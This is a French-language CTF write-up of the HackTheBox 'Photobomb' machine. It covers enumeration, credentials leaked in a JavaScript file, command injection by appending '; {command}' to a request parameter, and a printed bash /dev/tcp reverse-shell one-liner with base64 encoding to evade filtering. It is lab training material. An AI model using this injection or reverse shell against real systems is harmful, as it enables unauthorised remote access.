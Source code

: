 # WriteUp de la box Photobomb

Bonjour à toutes et tous, aujourd'hui on s'attaque à la machine Photobomb sur HackTheBox. 

C'est une machine classifiée facile, et nous allons voir que les démarches pour atteindre les deux flags sont relativement rapides (si l'on cherche aux bons endroits).

## Enumération

On commence par réaliser un NMAP afin de scanner les ports ouverts sur la machine : 

![image](https://user-images.githubusercontent.com/33124690/195099486-b77ad55d-e35f-4a74-bfea-d0e4a677d81e.png)

On s'aperçoie que seul le port 80 (HTTP) ainsi que le port 22 (SSH) sont ouverts. On obtient aussi le nom de domaine (photobomb.htb) qu'il faudrait ajouter dans notre ficher "/etc/hosts"

Lorsque l'on se rend sur le site, on se rend compte qu'il n'y a pas grand chose, c'est un site vitrine (d'apparence). 

![image](https://user-images.githubusercontent.com/33124690/195100699-d756413d-d18f-4b08-9fb7-203ba7989aef.png)

Un lien permet de se connecter pour accéder à une autre partie du site. Néanmoins, sans creds, impossible de se connecter, il va falloir trouver une solution. On peut quand même remarquer qu'en cas d'échec d'authentification, on est redirigés sur "/printers".

![image](https://user-images.githubusercontent.com/33124690/195103675-392f6fa7-ed1d-4be0-9de6-2e5de3c0514c.png)

On lance une énumération des "directories" avec gobuster en fond, en parralèle, on continue l'énumération à la main afin de voir si l'on peut trouver quelque chose d'intéressant.

![image](https://user-images.githubusercontent.com/33124690/195105567-1f95810a-096e-415f-9be4-2d3d1354bc33.png)

## Accès au "/printers"

Les résultats de gobuster ne seront pas très intéressants car toutes les pages que l'on trouve nécessite une authentification. Toujours étant qu'en inspectant le code source de la page, on s'aperçoit qu'un fichier JS est utilisé. En y accédant, on obtient des creds visiblement destinés au support technique du site web.

![image](https://user-images.githubusercontent.com/33124690/195106155-64a3d6f0-0ce7-4f7f-aa11-d58bd4662bd9.png)

Il suffit d'utiliser ces creds pour nous connecter ou tout simplement de c/v le lien ! :)

## Reverse Shell pour accéder à la machine

Maintenant que nous avons accès, nous pouvons continuer à énumérer le site. On remarque rapidement un bouton pour télécharger la photo : 

![image](https://user-images.githubusercontent.com/33124690/195107724-663aaefb-0c04-450d-b35c-cfd1a48ce5ee.png)

On lance Burp Suite afin d'étudier la requête qui est effectuée. 

![image](https://user-images.githubusercontent.com/33124690/195108047-908809d1-3394-4012-a25f-12703ab17c57.png)

On test plusieurs attaques comme du LFI sur la requète, rien ne fonctionnait jusqu'au moment où on test les injections de commandes.
Comme on peut le voir ci-contre, il suffit d'ajouter "; {command}" à la suite d'un des trois paramètres pour que ce soit executé.

![image](https://user-images.githubusercontent.com/33124690/195109920-3df43674-442e-49df-9c53-8e26194183dc.png)

Maintenant que nous avons une RCE sur le serveur web, il suffit de créer notre reverse shell et de l'envoyer afin d'avoir accès à la machine.

Dans un premier temps, un simple reverse shell "bash -i >& /dev/tcp/10.10.14.40/4242 0>&1" ne fonctionne pas, même en URL encodant (surement à cause des caractères spéciaux). On décide donc de le passer en base64 en faisant attention de n'avoir aucun "+".

![image](https://user-images.githubusercontent.com/33124690/195110748-47ec7bde-8672-4391-9993-daeaa0c8312a.png)

Puis, on passe notre payload dans la requète.






